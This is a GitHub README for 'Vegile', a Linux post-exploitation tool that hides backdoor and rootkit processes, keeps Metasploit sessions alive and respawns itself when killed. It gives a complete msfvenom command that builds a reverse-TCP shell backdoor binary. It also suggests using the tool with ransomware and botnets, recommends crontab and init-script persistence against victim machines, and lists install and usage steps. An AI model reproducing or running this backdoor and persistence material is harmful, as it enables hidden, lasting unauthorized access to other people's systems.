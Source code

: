 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniques in linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.


<img src="https://user-images.githubusercontent.com/17976841/34869598-fd7cf00e-f7b9-11e7-950e-a4cb61364c03.png" ></img>

### Donate
- If this project is very helpful to your penetration testing and u want to support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)



## :book: How it works

This tool will set up your ***backdoor/rootkits***
when backdoor is already setup it will be ***hidden*** your specific process,***unlimited*** your ***session*** in metasploit and ***transparent***. Even when it is **killed**, it will **re-run again**. There will always be a procces which will **run** another process, so we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- Right now I just tested backdoor with msfvenom command using reverse_shell and my manual backdoor for linux [ **it works** ] or you can use thefatrat for to help you create a simple backdoor
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 
- For get persistence you can use **crontab and xinit.d** into your backdoor  
- this is just a simple algorithm how we can maintain our sessions and backdoor/rootkits , **you can explore this**



## Getting Started
1. ```git clone https://github.com/garcyber/chimera-tools.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 

## Demo Video

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897525-f91afc1a-f820-11e7-9f85-bb0a5f00b4e3.JPG)](https://www.youtube.com/watch?v=oYyH1G3Lsvo "Vegile Demo ")

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897524-f887a258-f820-11e7-9ceb-a39da5be6fdf.JPG)](https://www.youtube.com/watch?v=imlh8l5w56k "Vegile Demo ")
